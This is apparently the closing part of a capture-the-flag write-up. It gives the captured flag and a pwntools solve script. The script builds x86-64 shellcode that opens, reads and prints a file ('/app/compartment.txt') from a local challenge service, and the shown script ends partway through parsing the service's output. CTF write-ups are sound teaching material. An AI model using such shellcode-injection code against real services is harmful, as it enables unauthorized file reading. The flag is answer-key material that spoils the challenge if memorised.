 We've got the flag: `cuhk25ctf{Secr3t_C0mpu71ng_1n_S3cure_C0mpartm3n7}`!

## Full Exploit Code

```py [solve.py]
from pwn import *

def start(argv=[], *a, **kw):
  return process([exe] + argv, *a, **kw)

exe = './service'
elf = context.binary = ELF(exe, checksec=False)

context.log_level = 'debug'

custom_assembly = """
.global _start

_start:
.intel_syntax noprefix

mov rbx, 0x000000007478742e
push rbx

mov rbx, 0x746e656d74726170
push rbx

mov rbx, 0x6d6f632f7070612f
push rbx

mov rsi, rsp

mov rdi, 0xFFFFFF9C
mov rdx, 0
mov r10, 0
mov rax, 257
syscall

mov rdi, rax
mov rsi, rsp
mov rdx, 100
mov rax, 0
syscall

mov rdx, rax
mov rdi, 1
mov rsi, rsp
mov rax, 1
syscall

mov rdi, 0
mov rax, 60
syscall
"""

shellcode = asm(custom_assembly)
io = start()

bruh1 = io.recvuntil("renting at ")
input1 = io.recvuntil(", but")

bruh3 = io.recvuntil("HKD")
input2 = io.recvuntil(" for ")

```